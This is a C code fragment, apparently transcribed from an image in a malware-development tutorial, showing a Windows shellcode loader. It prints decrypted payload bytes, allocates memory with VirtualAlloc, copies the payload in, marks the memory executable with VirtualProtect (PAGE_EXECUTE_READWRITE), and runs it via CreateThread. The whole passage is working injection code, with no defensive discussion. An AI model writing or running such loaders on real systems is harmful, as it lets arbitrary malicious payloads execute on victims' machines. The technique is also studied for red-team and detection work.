 ```c
    for (int i = 0; i  < dwPlainSize; i++) {
        printf("0x%02X, ", ((unsigned char*)pPlaintext)[i]);
    }
    printf("\n");

    // Initiating the shellcode injection
    printf("[#] Press <Enter> To Run ... ");
    getchar();

    PVOID pShellcodeAddress = VirtualAlloc(NULL, dwPlainSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    if (pShellcodeAddress == NULL) {
        printf("[!] VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
    printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);

    printf("[#] Press <Enter> To Write Payload ... ");
    getchar();

    // Copying the payload to the allocated memory
    memcpy(pShellcodeAddress, pPlaintext, dwPlainSize);
   
    // Cleaning the pDeobfuscatedPayload buffer, since it is no longer needed
    memset(pPlaintext, '\0', dwPlainSize);

    DWORD dwOldProtection = NULL;
    
    // Setting memory permissions at pShellcodeAddress to be executable
    if (!VirtualProtect(pShellcodeAddress, dwPlainSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
        printf("[!] VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }

    // Executing the shellcode
    printf("[#] Press <Enter> To Run ... ");
    getchar();

    // Running the shellcode as a new thread's entry 
    if (CreateThread(NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
        printf("[!] CreateThread Failed With Error : %d \n", GetLastError());
        return -1;
    }

    // Freeing pDeobfuscatedPayload
    HeapFree(GetProcessHeap(), 0, pPlaintext);
    printf("[#] Press <Enter> To Quit ... ");
    getchar();
}
``` 
